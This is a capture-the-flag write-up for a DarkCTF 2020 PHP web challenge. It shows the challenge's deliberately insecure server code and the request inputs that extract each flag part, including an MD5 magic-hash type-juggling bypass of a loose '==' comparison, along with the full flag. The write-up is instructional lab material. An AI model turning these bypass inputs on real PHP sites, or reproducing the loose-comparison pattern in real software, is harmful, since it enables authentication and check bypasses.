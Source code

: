 # some first thoughts:
i should remove the source from the top, maybe just upload it as a file as part of the writeup
instead i should have snippets at each flag part

# web/php information
First lets look at the code. I posted the commented version of the server side code to this git repo.

Going through the code we can see that there are 4 main `if` statements that each return a part of the flag
flags:
- $flag
- $flag\_1
- $flag\_2
- $flag\_3

Here is a walkthrough on how to get each flag.
(flags are printed at the bottom of the page so if youre like me you might have missed that for a few mins)

### $flag
code for first flag:
```php
# is true if the url includes query's
if (!empty($_SERVER['QUERY_STRING'])) {

    $query = $_SERVER['QUERY_STRING'];
    $res = parse_str($query);

    # is true if darkctf is one of the query arguments
    if (!empty($res['darkctf'])){
        $darkctf = $res['darkctf'];
    }
}

# if darkctf print flag
if ($darkctf === "2020"){
    echo "<h1 style='color: chartreuse;'>Flag : $flag</h1></br>";
}
```

the server checks if there is a urlparameter called "darkctf" and if there is then assigns it to $darkctf

if darkctf="2020" we get the flag
```
http://php.darkarmy.xyz:7001/?darkctf=2020
```

result:
```
DarkCTF{
```

cool onto the second part:
### flag\_1
code for second flag:
```php
# if useragent =  "020_the_best_year_corona" print flag_1
if ($_SERVER["HTTP_USER_AGENT"] === base64_decode("MjAyMF90aGVfYmVzdF95ZWFyX2Nvcm9uYQ==")){
    echo "<h1 style='color: chartreuse;'>Flag : $flag_1</h1></br>";
}
```
our brosers useragent has to equal to base64 decoded version of "`MjAyMF90aGVfYmVzdF95ZWFyX2Nvcm9uYQ==`"

base64\_decode( "`MjAyMF90aGVfYmVzdF95ZWFyX2Nvcm9uYQ==`") = "`2020_the_best_year_corona`"

setting is easiest with the curl using the `-A flag`
```bash
curl -A "2020_the_best_year_corona" http://php.darkarmy.xyz:7001
```

result:
```
very_
```

### flag\_2
code for third flag:
```php
# is true if the url includes query's
if (!empty($_SERVER['QUERY_STRING'])) {
    $query = $_SERVER['QUERY_STRING'];
    $res = parse_str($query);

    # if ctf2020 is set
    if (!empty($res['ctf2020'])){
        $ctf2020 = $res['ctf2020'];
    }

    # if ctf2020 is equal to ""
    if ($ctf2020 === base64_encode("ZGFya2N0Zi0yMDIwLXdlYg==")){
        echo "<h1 style='color: chartreuse;'>Flag : $flag_2</h1></br>";
                
        }
    }
```
at fist glance it looks like the first flag. you need to set urlparameter ctf2020 to a string, but there is a catch, its `base64\_encode` and not `decode` so the actual string is "`WkdGeWEyTjBaaTB5TURJd0xYZGxZZz09`"


```
http://php.darkarmy.xyz:7001/?ctf2020=WkdGeWEyTjBaaTB5TURJd0xYZGxZZz09
```

result:
```
nice
```


### flag\_3
code for fourth flag:
```php
# true if url param "karma" and "2020" is set
if (isset($_GET['karma']) and isset($_GET['2020'])) {

    # karma and 2020 cant equal each other
    if ($_GET['karma'] != $_GET['2020'])

    # yet their hash does
    if (md5($_GET['karma']) == md5($_GET['2020']))
        echo "<h1 style='color: chartreuse;'>Flag : $flag_3</h1></br>";
    else
        echo "<h1 style='color: chartreuse;'>Wrong</h1></br>";
}
```
overview:
- we need to set both 'karma' and '2020'
- 'karma' and '2020' cannot equal each other
- md5($karma) has to equal md5($2020)

notice that when coparing the md5 of the two strings only `==` is used and not `===` this is called a non-strict comparison and leads to some interesting php bugs involving type juggling, [this document explains it well](https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf)


when we use non-strict comparison ( == ) php will attempt to guess the type of the value before comparing them.  This leads to weird stuff happening, eg: any string starting with `"0e"` will be evaluated as `0`

```bash
$ echo -n 240610708 | md5sum
0e462097431906509019562988736854  -

$ echo -n QNKCDZO | md5sum
0e830400451993494058024219903391  -
```
two completely different strings that both start with "0e" will equal to each other because php things they are both 0
```
http://php.darkarmy.xyz:7001/?karma=240610708&2020=QNKCDZO
```

result:
```
_web_challenge_dark_ctf}
```


# flag
```
DarkCTF{very_nice_web_challenge_dark_ctf}
```




